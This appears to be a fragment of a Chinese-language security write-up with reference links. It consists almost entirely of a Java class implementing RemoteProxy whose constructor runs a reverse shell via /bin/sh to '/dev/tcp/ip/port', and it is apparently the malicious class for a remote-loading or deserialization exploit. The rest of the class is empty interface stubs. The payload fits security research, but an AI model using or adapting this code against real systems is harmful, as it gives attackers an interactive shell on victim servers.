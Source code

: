     public class remote implements RemoteProxy {

        public remote() {
            try{
                java.lang.Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","sh -i >& /dev/tcp/ip/port 0>&1"});
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public Object getAttribute(String s) {
            return null;
        }

        @Override
        public void setAttribute(String s, Object o) {

        }

        @Override
        public ComponentMetaVO getComponentMetaVO() {
            return null;
        }

        @Override
        public int getRetryMax() {
            return 0;
        }

        @Override
        public void setRetryMax(int i) {

        }

        @Override
        public long getRetryInterval() {
            return 0;
        }

        @Override
        public void setRetryInterval(long l) {

        }

        @Override
        public void setRemoteAddressSelector(RemoteAddressSelector remoteAddressSelector) {

        }

        @Override
        public RemoteAddressSelector getRemoteAddressSelector() {
            return null;
        }
    }

参考链接
--------

> https://xz.aliyun.com/t/8242
>
> https://blog.sari3l.com/posts/608d18f0/
